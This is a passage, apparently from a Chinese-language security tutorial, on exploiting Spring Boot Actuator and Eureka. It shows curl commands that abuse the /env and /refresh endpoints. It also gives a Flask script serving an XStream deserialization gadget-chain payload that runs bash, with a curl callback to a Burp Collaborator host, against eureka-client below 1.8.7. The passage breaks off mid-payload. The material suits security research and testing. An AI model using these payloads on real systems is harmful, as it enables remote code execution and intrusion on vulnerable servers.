 **(2) 利用**

```plain
curl -X POST --data 'spring.cloud.bootstrap.location=http://127.0.0.1:9091/example.yml' localhost:9092/env
```

刷新即可成功触发

```plain
curl -X POST localhost:9092/refresh
```

[![](assets/1703152930-a55d14946a30eef8bf96233a4565e0bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111847-3a428c44-d176-1.png)

- - -

#### **2.eureka xstream deserialization RCE**

```plain
cd springboot-eureka-xstream-rce
mvn spring-boot:run
```

> 影响版本：eureka-client < 1.8.7
> 
> 目前最新版:3.03

**(1) 编写利用脚本**

```plain
#!/usr/bin/env python
# coding: utf-8

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
  command = "curl i5o45whthqsvd5uhahnx5p0z9qfh36.burpcollaborator.net"
  xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>{command}</string>
                    </command>
```